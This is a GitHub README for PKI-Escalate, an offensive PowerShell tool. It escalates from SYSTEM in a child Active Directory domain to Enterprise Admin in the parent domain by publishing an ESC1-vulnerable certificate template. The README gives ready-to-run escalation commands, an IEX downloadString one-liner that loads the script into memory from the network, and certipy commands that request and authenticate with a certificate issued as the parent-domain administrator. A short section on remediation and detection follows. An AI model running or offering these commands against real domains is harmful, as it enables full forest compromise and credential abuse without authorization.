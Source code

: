 # PKI-Escalate

## Overview

PKI-Escalate is a tool designed to abuse the overly permissive relationship between CHILD and PARENT domains in regard to their certificate services containers within Active Directory. Modifications at the CHILD domain are propagated up to the PARENT domain, which can lead to the SYSTEM user in the CHILD domain being able to add a malicious certificate template, vulnerable to [ESC1](https://linl.cok), for a user of their choosing. This then gets replicated up to the PARENT domain, and thus, a certificate can be requested against the PARENT DC as any user, including Enterprise Administrators. 

Initially, I read about this technique on Andy Robbins Spectre Ops post - [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c) - which you should definitely check out! It goes into detail about how and why this attack is possible. I've provided a small overview below for more TLDR folks.

- Changes made to the CHILD domain objects related to the certificate service are replicated up to the PARENT domain.
- Certificate Templates are stored in the AD object `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld`.
- Published Certificate Templates, that is, those that are useable, are stored in the `certificateTemplates` value of the `CN=CAName,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container.
- Both of these are children of the `CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container. In the CHILD domain, the SYSTEM user has FULL CONTROL of this container. By default, there is no inheritance to the Enrollment Services container, restricting the ability to publish certificates, but with full control of the PARENT, we can add this.
- Changes made to this container by the SYSTEM user in the CHILD domain will be replicated up to the PARENT domain!

In essence, this allows us to:
 - Copy an existing, published template and modify it to be vulnerable to ESC1 (Enrolee supplies SAN in the certificate request).
 - Insert this template into the Certificate Templates container, so it is available for publishing.
 - Publish the certificate, allowing an arbitrary user in the CHILD domain to request certificates as any domain user in the parent domain.
 - Escalate from SYSTEM in the CHILD domain to Enterprise Administrator in the PARENT domain 😊

Vadims Podāns ([@Crypt32](https://twitter.com/Crypt32)) then provided the [method](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/) to perform the attack in an environment without ADCS installed, which involves installing the ADCS services on the CHILD domain and waiting for it to be replicated up the PARENT.

Both environments have been included for this initial release of the tool, though there are some caveats to be aware of in the [Limitations](https://github.com/heartburn-dev/PKI-Escalate#Limitations) section.

## Installation

PKI-Escalate is provided as a simple PowerShell script which can be imported:

```powershell
Import-Module .\PKI-Escalate.ps1
```

As with most things, it can also be loaded remotely into memory:
```powershell
IEX((New-Object System.Net.WebClient).downloadString('https://raw.githubusercontent.com/heartburn-dev/PKI-Escalate/master/PKI-Escalate.ps1))
```

## Usage Instructions

To escalate the user GANON and add a malicious certificate template called BADBOY:
```powershell
Invoke-Escalation -Username GANON -TemplateName BADBOY 
```

To escalate the user GANON and add a malicious certificate template called BADBOY to a domain without ADCS installed:
```powershell
Invoke-Escalation -Username GANON -TemplateName BADBOY -InstallAdcs -CAName NewCA
```

To remove a template that was installed using the exploit:
```powershell
Clear-Template -TemplateName BADBOY -CAName NewCA
```

Once exploited, consider using either Certipy or Certify to abuse the new template:
```bash
# Check the vulnerable templates - If LDAPs is properly configured then the scheme is not necessary
certipy find -vulnerable -scheme ldap -u ganon -p Password1 -dc-ip 192.168.55.25

# Request a certificate as the administrator user in the parent domain
certipy req -username ganon@chasm.dc01.hyrule.local -ca 'HYRULE-CA' -target HYRULE-ADCS.HYRULE.LOCAL -template BADBOY -upn administrator@HYRULE.LOCAL  -password Password1 -debug

# Authenticate to the parent domain as the administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.55.5
```

⚠ **NOTE**: When requesting your certificate with Certipy, the `-target` parameter points to the certificate server. This is because it connects via the `ncacn_np:\\HOSTNAME[\pipe\cert]` pipe to request information! ⚠

Please consider clicking on the image below to watch a demonstration video:

[![PKI-Escalate Demonstration - Domain Admin to Enterprise Admin](https://img.youtube.com/vi/XtwKvZ-kZRE/0.jpg)](http://www.youtube.com/watch?v=XtwKvZ-kZRE "PKI-Escalate Demonstration - Domain Admin to Enterprise Admin")

Alternatively, a direct link is:

https://www.youtube.com/watch?v=XtwKvZ-kZRE


## OPSEC Considerations

In terms of remediation, I don't have much information on this attack as I believe this functionality is inherent to the way ADCS works within a forest environment. That is to say, replication up and down is a necessity to allow CA functionality across domains. However, removing full control from the SYSTEM user, or disabling inheritance on the `CN=CAName,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container may stop a TA from being able to enable the certificate. 

A better use of time may be to concentrate on detection. Certificate Template changes are not everyday things that occur in an Active Directory environment and therefore deletions and additions should be closely monitored.

## Limitations

This tool was tested in three lab environments:

- ADCS installed on a dedicated ADCS machine in the PARENT domain;
- ADCS installed on the PARENT Domain Controller;
- ADCS not installed and performed as part of the script.

These were all Windows Server 2019 machines. Further testing is yet to be conducted on larger environments and different setups. For these, it is recommended to perform the attacks manually if the tool fails to handle an error. Please submit a pull request or issue if you encounter problems and I will endeavour to fix it. 

## Errors

During testing, I noted multiple errors and their corresponding reasons:


The exploit completes, but the resulting certificate cannot be used and returns `"KDC_ERROR_CLIENT_NOT_TRUSTED"`. This generally occurred as the ADCS had been installed recently and there was a time delay between the certificates being able to be used for authentication. Please bear this in mind for testing labs!


Similarly, the error `"KDC_ERR_PADATA_TYPE_NOSUPP"` was encountered, also a byproduct of just a recent install. This, I believe, is due to the PARENT DC not yet enrolling for a certificate that allows smartcard logons.


Both these errors should only occur in environments when you are testing and have recently installed the required services. Just give it a few hours and the certificates should be fine to authenticate with after 😊


## TODO List

- [x] Add the ability to completely remove the template rather than just unpublish
- [ ] Create a CSharp version
- [ ] Create BOF version
- [ ] Add handling for multiple CAs being installed
- [ ] Test on 2012/2016/2022
